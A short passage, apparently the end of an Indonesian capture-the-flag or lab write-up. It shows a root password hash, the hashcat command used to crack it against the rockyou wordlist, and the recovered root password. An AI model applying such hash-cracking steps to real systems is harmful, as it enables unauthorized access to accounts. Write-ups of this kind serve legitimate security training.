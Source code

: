 Kita mendapatkan password hash dari root

```
$6$riekpK4m$uBdaAyK0j9WfMzvcSKYVfyEHGtBfnfpiVbYbzbVmfbneEbo0wSijW1GQussvJSk8X1M56kzgGj8f7DFN1h4dy1
```

Penulis akan menggunakan hashcat untuk crack password tersebut

```
hashcat64.exe --force -m 1800 hash.txt rockyou.txt
```

Password root adalah mercedes

![Image](img/13.jpg)

# Rooted !
